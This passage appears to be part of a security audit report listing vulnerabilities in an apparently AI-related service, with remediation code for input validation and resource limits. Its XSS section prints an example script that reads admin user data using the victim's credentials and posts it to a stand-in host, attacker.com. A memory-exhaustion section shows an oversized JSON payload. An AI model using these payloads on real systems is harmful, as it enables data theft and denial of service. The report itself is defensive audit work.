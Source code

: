 **Security Pattern**: **Validate-Before-Parse-Pattern**
- Always validate input before deserialization
- Use allowlist approach for safe patterns
- Implement size limits to prevent DoS
- Provide secure fallbacks for invalid data

### 2. MEDIUM SEVERITY: Memory Exhaustion Attack Vector

**Vulnerability Details**:
- **Attack Surface**: Unbounded context data structures
- **Exploitation**: Massive JSON payloads causing memory exhaustion
- **Impact**: Denial of service, system instability

**Attack Example**:
```python
malicious_context = {
    "conversation_history": ["message" * 10000] * 1000,  # 10GB+ memory
    "strategic_directives": [{"data": "x" * 1000000}] * 100
}
```

**Remediation Pattern**:
```python
# Security Constants (Defense in Depth)
MAX_JSON_SIZE = 1024 * 1024  # 1MB limit for JSON data
MAX_STRING_LENGTH = 10000    # String length protection  
MAX_ARRAY_LENGTH = 1000      # Array size protection
MAX_OBJECT_DEPTH = 10        # Recursive depth protection

def sanitize_json_data(data: Any, max_depth: int = MAX_OBJECT_DEPTH, current_depth: int = 0) -> Any:
    """Recursively sanitize JSON data with depth limiting."""
    if current_depth > max_depth:
        raise SecurityValidationError(f"JSON object depth exceeds maximum of {max_depth}")
```

**Security Pattern**: **Resource-Limit-Pattern**
- Define hard limits for all resource-consuming operations
- Implement recursive depth limiting
- Use progressive truncation rather than rejection
- Monitor resource usage during processing

### 3. MEDIUM SEVERITY: XSS Attack Vector

**Vulnerability Details**:
- **Attack Surface**: Strategic directives and conversation history
- **Exploitation**: Script injection through user-controlled content
- **Impact**: Cross-site scripting, session hijacking

**Attack Example**:
```html
<script>
  fetch('/admin/users', {credentials: 'include'})
    .then(r => r.json())
    .then(users => fetch('http://attacker.com/steal', {
      method: 'POST', 
      body: JSON.stringify(users)
    }));
</script>
```
